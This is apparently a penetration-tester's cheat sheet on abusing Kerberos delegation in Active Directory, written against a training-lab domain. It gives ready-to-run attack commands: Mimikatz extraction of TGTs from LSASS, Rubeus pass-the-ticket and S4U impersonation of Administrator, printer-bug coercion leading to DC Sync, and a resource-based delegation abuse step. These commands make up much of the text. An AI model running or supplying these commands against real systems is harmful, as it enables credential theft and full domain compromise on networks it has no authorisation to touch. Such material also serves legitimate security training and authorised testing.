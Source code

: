 # Delegations

Kerberos delegation allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainComputer -UnConstrained
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
{% endtab %}
{% endtabs %}

### Exploitation

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### Printer bug

The printer bug uses an RPC call of MS-RPRN which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

1. Run on compromised Server Rubeus monitor

```powershell
Rubeus.exe monitor /interval:5 /nowrap
```

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. Pass The Ticket
4. DC Sync

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as  Service for user (S4U):

* Service for User to Self  (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user.
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user.\
  Note that the other services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
<pre class="language-powershell"><code class="lang-powershell"><strong>Get-DomainUser -TrustedToAuth
</strong>Get-DomainComputer -TrustedToAuth
</code></pre>
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endtab %}
{% endtabs %}

### Exploitation

{% code overflow="wrap" %}
```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
{% endcode %}

Check if worked

```powershell
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$ 
```

### Resource based

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controoled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD we need:

1. Write permissions over the target service `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.
2. AD Object which has SPN configured&#x20;

Abuse example:

```
# Create Computers - AD Object which has SPN configured 
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

